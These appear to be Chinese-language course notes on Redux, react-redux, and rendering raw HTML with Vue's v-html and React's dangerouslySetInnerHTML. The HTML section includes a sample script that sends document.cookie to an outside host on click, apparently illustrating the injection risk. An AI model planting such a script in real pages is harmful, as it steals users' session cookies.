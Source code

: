 * redux使用步骤
    1. 创建store（需要指定state与state的修改方式）
        * 需要定义state
        * 需要定义Reducer
    2. 定义State：状态（数据）
    3. 定义Reducer
        * 修改state的方式
        * 必须返回一个新的state
    4. 使用
        * 获取：store.getState()
        * 修改：store.dispatch(action)
        * 监听：store.subscribe(fn)
    
* react-redux
    * 利用context把store上的数据传入到react组件中
    * 使用步骤
        1. 在最外层使用`<Provider/>`组件，并共享Store
            ```js
                <Provider store={store}>
            ```
        2. 使用`connect`高阶组件映射数据到组件的props
            ```js
                connect([mapStateToProps][,mapDispatchToProps])(MyComponent)
            ```
            * 统一处理redux操作

* 在组件中显示包含html代码的数据
    ```html
        <img src="meinv.png" id="meinv"/>
        <h4>点我有惊喜</h4>
        <script>
            let meinv = document.querySelector('#meinv');
            meinv.onclick = function(){
                location.href="http://laoxie.com?data="+document.cookie

            }
        </script>
    ```
    * Vue：v-html
    ```html
        <div v-html="content"></div>
    ```
    * React:
    ```jsx
        //<div>{content}</div>
        <div dangerouslySetInnerHTML={{__html:content}}></div>
    ```

## day6-3

### 复习
* Redux：解决组件间数据共享的问题
    * 核心
        * Store     仓库（创建：createStore()）
            * 获取：store.getState()
            * 修改：store.dispatch(action)
            * 监听：store.subscribe(fn)
        * State     状态（数据）
        * Action    命令
        * Reducer   修改state的逻辑
            * 是一个纯函数，state,action作为参数
            * 返回新的state
    * store的工作原理